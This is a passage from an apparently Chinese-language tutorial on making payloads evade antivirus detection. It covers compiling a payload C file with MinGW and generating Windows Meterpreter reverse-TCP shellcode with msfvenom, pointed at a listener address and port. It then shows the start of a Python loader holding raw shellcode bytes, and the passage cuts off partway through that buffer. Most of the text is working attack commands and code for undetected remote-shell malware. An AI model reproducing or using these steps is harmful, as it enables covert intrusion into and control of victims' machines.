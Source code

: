 b. 打开后这个样子:

![image-20200115112534243.png](https://ae01.alicdn.com/kf/U6bfc010ba1c84242b90986208a6670abn.png)

c. 然后找到mingw32-gcc.bin, mingw32-gcc-g++.bin, mingw32-gdb.bin这三个,选中后点击Installation->Apply all changes.

```
三个文件的作用:
	第一个是c语言文件的编译器，第二个是c++的，第三个是用来调试编译后文件的。
```

d. 等待安装完后,找到我们MinGW的安装路径,将其的bin目录所在路径添加到环境变量中:

![image-20200115112549995.png](https://ae01.alicdn.com/kf/Uceac33fbc69944009c317c0c7c60d01b2.png)

e. 然后我们打开cmd,运行gcc验证下:

![image-20200115112604141.png](https://ae01.alicdn.com/kf/U459b3d5a8358451b9ee99b505a1a6582I.png)

提示我们没有输入文件,说明我们的环境变量配置成功了!

f. 安装windows SDK:

https://developer.microsoft.com/en-us/windows/downloads/windows-10-sdk

e. 进行编译:

```
gcc -static-libstdc++ -static-libgcc  payload2.c -o 123.exe

注意不添加-static-libstdc++ -static-libgcc的话,在没有编译环境的机器上运行会报缺少dll.
```

##### 参考文章:

https://blog.csdn.net/qq_28581077/article/details/81380341

#### 6、生成python的shellcode:

生成一段python的shellcode然后写一个加载器,再利用pywin32打包成exe

##### 案例:

###### (1) 生成python的shellcode:

```
msfvenom -p windows/meterpreter/reverse_tcp LPORT=4444 LHOST=192.168.1.132  -f python -o payload.py 

这里还可以使用-v 来指定shellcode的变量名,若不指定默认为buf
```

###### (2) 安装pywin32和pyinstaller

###### (3) 用来免杀的python脚本:

```
from ctypes import *
import ctypes
# length: 891 bytes

buf =  b""
buf += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
buf += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
buf += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
buf += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
buf += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
buf += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
buf += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
buf += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
```
